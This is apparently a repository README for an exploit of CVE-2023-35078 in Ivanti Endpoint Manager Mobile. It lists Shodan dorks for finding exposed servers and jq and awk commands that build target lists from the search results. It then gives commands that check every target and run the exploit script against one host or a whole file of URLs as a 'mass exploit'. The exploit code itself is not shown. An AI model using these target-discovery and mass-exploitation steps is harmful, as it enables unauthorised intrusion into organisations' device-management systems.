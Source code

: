 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
	  http.favicon.hash:362091310 <br/>
	  http.favicon.hash:545827989 <br/>
	  path=/mifs <br/>

- Transform json to data <br/>

      jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      python shodan-parser.py -o temp_data_file shodan.json
      awk '{print "https://"$0}' temp_data_file > data_file
- How run check. <br/>
      Format data_file must be http://ip_addr:port or https://ip_addr:port 
      while read line; do ./check.sh $line; done < data_file

- Setup requirements <br/>

      pip install -r requirements.txt

- Run exploit single address . <br/>

      python exploit.py -u http://
- Run mass exploit . <br/>

      python exploit.py -f urls.txt
